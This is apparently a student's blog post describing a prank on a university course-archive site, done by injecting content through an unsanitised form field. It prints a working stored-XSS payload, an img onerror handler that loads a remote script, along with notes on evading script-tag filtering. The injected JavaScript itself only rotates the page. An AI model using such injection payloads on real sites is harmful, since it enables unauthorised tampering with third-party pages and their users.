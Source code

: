 ```yaml
---
layout: default
title: Skule Security Sillyness
permalink: /evaluations/skulecourses/index.html
---
```

My room mate [Zhuowei](http://zhuoweizhang.net) and I explored how secure [Skule's (U of T Engineering) courses page](http://courses.skule.ca) is,  
since it is host to supposed past exams that most U of T students download without a second thought.  

This was done mostly for fun and curiosity, with no malicious intent; **preserving the pages' usability was a primary concern**.  

The pages that were pranked include: [CSC180](http://courses.skule.ca/course/?q=CSC180H1) | [ESC103](http://courses.skule.ca/course/?q=ESC103H1) | [PHY180](http://courses.skule.ca/course/?q=PHY180H1)  
In case those pages were taken down, you can see the scripts in action: [Sample ESC103](esc103.html) | [Sample PHY180](phy180.html)  

Message to all readers and possibly maintainers of Skule:  
Please sanitize input boxes before injecting content into the page; it's too easy for someone to insert an \<a\> tag redirecting to a malicious site!  


**UPDATE (Dec 22, 2013)**: Fortunately Skule fixed this exploit! You can still check out the effect from the sample pages.  

## Injecting Code (the clever part)
--------------------------------
Before altering the actual course pages, an illegitimate course was created to allow prototyping.  
Skule's search cannot find the course, but direct access through URL allows access to upload and view.  

The first page to be "improved" was CSC180, which had an iframe element injected through the "Display As" field.  
Apparently **no sanitation of inputs is done...**  

<div class="frames">
<img src="dirtyinputs.png">
<p>They protect against spam... But what of dirty injections!?!</p>
</div>

The code for the CSC180 page was written by Zhuowei while I wrote the code for the ESC103 page.  
The PHY180 page's [GravityScript](https://code.google.com/p/gravityscript/) was written by Mr.Doob for Google and we simply embedded it into the page using the method below.  

The embedding for the CSC180 page was trivial since no scripting was required,  
but adding a script for the ESC103 and PHY180 pages were much more difficult.  

Just adding a \<script\> element didn't work.   
`<script src="some pastebin url"> </script>` 
After exhausting the possibilities by splitting the string up and concatenating them like `"<scr" + "ipt>"` and escaping the characters like  
`&quot;&lt;scr&quot; + &quot;ipt&gt;&quot;` we determined that the input ate script tags, apparently.  

Our workaround was to use an impossible to load \<img\> element that points to our script with its onerror attribute.
`<img onerror="a=document.createElement(&quot;script&quot;);a.src=&quot;url to our code&quot;;document.body.appendChild(a)" src="http://localhost:1">`  

It will always load my script because http://localhost:1 as an image can never load!

## Javascript (the dumb part)
-------------------------
I took this as an opportunity to get familiar with Javascript, seeing as I recently learned HTML and CSS for this portfolio.  
Gaining proficiency in JS will complete my skill set as a web developer, which will be widely useful since the web is becoming a larger distributor of applications.  
Web apps are robust in being 100% cross-platform, requiring just a browser to function on any OS and device, compatible with my philosophy for robustness.  

The idea was to create an effect that was immediately noticeable yet is easy to turn off to preserve usability.  
Seeing as this was our linear algebra course, I went with rotating the page, which is a linear transformation :D.  
A large button was placed in the centre of the page to make it easy for people to return the page to normal since its location will stay still.
<pre><code>var timer = setInterval(transform,50);
var degreez = 0;
var allSet = false;
var bellybutton;
function transform(){
	if (!allSet) {
		var transOrigin = "50% 50%";
		document.body.parentElement.style.height = "100%";
		document.body.style.minHeight = "100%";
		document.body.style.transformOrigin = transOrigin;
		document.body.style.webkitTransformOrigin = transOrigin;
		document.body.style.mozTransformOrigin = transOrigin;
		bellybutton = document.createElement("button");
		bellybutton.innerHTML = "CLICK TO STOP PUKING";
		bellybutton.style.position = "absolute";
		bellybutton.style.left = "45%";
		bellybutton.style.top =  "45%";
		bellybutton.style.width = "10%";
		bellybutton.style.height =  "10%";
		document.body.appendChild(bellybutton);
		bellybutton.onclick = stoppuking;
		allSet = true;
	}
	var transString = "rotate(" + degreez + "deg)";
	document.body.style.transform = transString;
	document.body.style.webkitTransform = transString;
	document.body.style.mozTransform = transString;
	degreez += 1;
}
function stoppuking(){
	clearInterval(timer);
	var transString = "";
	document.body.style.transform = transString;
	document.body.style.webkitTransform = transString;
	document.body.style.mozTransform = transString;
	document.body.removeChild(bellybutton);
}
</code></pre>

This code was designed to work on all browsers and devices (webkit, moz, and unnamed),  
and a button was chosen because it can be clicked on all devices, whereas some other mechanisms  
such as onhover aren't mobile compatible.  

Lastly, I'll leave how we changed the years to an arbitrary number as an anagram, decode it if you can:  
a cad ed retelevise fill unlit  (It is in English, has 1 verb, 1 noun, and 3 adjectives)

## Gains from Experience
---------------------------
- Javascript experience and interest in web development
- Appreciation of sanitizing inputs
- Knowledge of this issue to Skule maintainers that they may fix it
- Fun :D
